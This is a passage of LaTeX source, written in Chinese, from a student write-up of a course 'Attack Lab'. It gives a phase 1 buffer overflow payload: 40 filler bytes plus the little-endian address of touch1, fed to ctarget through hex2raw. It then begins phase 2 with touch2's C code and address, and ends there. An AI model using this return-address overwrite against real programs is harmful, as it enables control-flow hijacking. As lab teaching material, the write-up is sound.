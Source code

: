 \documentclass{article}
\begin{document}
因此，我们需要构造一份数据，内容为40个字节的任意数据加上touch1()函数的地址，来覆盖栈帧上的返回地址。由于X86-64使用小端法，因此我们需要将函数地址逆向填充。构造的十六进制数据phase1.txt如下。

\begin{lstlisting}[title=为phase\_1构造的十六进制数据, numbers=none,xleftmargin = 9em,xrightmargin = 9em]
  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  c0 17 40 00 00 00 00 00
\end{lstlisting}
使用工具hex2raw将其转换成攻击字符串并运行程序。

\begin{lstlisting}[language=bash]
    linux> ./hex2raw < phase1.txt | ./ctarget -q
  \end{lstlisting}

\paragraph{2) phase\_2}

在这个部分，我们需要使getbuf() 函数返回时，调用函数 touch2()，并将我们的cookie值作为参数传递。

函数touch2()的C代码如下所示。

\begin{lstlisting}[title = 函数touch2()的C代码, xleftmargin = 4em,xrightmargin = 4em, aboveskip = 1em, numbers = left, language = C]
    void touch2(unsigned val)
    {
        vlevel = 2; /* Part of validation protocol */
        if (val == cookie) {
            printf("Touch2!: You called touch2(0x%.8x)\n", val); validate(2);
        } else {
            printf("Misfire: You called touch2(0x%.8x)\n", val); fail(2);
        }
        exit(0);
    }
\end{lstlisting}

从汇编代码中得知，touch2()函数的地址为0x00000000004017ec。
\end{document}
